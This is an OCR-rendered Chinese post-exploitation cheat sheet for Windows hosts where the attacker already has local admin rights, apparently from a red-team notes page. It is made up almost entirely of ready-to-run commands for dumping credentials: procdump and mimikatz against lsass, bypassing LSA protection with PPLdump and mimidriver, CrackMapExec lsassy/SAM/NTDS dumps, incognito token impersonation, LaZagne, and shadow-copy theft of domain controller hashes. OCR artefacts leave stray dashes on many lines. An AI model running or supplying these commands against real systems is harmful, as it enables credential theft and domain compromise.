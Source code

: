 
## 拥有本地管理员权限

### 获取密码


```
procdump.exe -accepteula -ma lsass.exe lsass.dmp-
-
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"-
-
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"-
-
hashdump: post/windows/gather/smart\_hashdump-
cme smb <ip\_range> -u <user> -p <password> -M lsassy-
cme smb <ip\_range> -u <user> -p '<password>' --sam / --lsa / --ntds-

```

### 绕过LSA防护策略读取密码



```
PPLdump64.exe <lsass.exe|lsass\_pid> lsass.dmp-
-
mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe" "!-" #with mimidriver.sys -
```


### 令牌窃取




```
.\\incognito.exe list\_tokens -u-
.\\incognito.exe execute -c "<domain>\\<user>" powershell.exe-
-
use incognito-
impersonate\_token <domain>\\\\<user>-
```


之前粗略分析过 token

[Token窃取那些事 （0range-x.github.io）](https://0range-x.github.io/2021/09/30/Token%E7%AA%83%E5%8F%96%E9%82%A3%E4%BA%9B%E4%BA%8B/)

### 查看本地存储的所有密码 

lazagne.exe all-

### 卷影拷贝（获取域控所有hash）


diskshadow list shadows all-
-
mklink /d c:\\shadowcopy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\-
